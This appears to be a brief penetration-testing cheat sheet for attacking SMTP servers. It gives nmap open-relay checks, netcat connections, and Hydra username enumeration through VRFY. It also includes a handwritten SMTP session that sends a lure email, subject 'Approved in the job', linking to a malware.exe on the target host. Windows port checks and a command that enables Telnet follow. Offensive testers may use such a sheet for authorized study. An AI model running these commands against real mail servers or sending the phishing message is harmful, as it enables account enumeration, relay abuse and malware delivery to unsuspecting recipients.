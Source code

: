 ### Linux

```shell
nmap -v --script smtp-commands,smtp-open-relay -p 25 $TARGET
```

```shell
nc -nv $TARGET 25
```

#### Hydra

```shell
hydra smtp-enum://$TARGET/vrfy -L `fzf-wordlist`
```

#### Send mail via SMTP and NetCat
```shell
nc -C $TARGET 25
HELO
MAIL FROM:$SENDER_USERNAME@local
RCPT TO:$RECEIVER_USERNAME@local
DATA
Subject: Approved in the job

http://$TARGET/malware.exe

.
QUIT
```

### Windows

```powershell
Test-NetConnection -Port 25 $TARGET
```

```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```


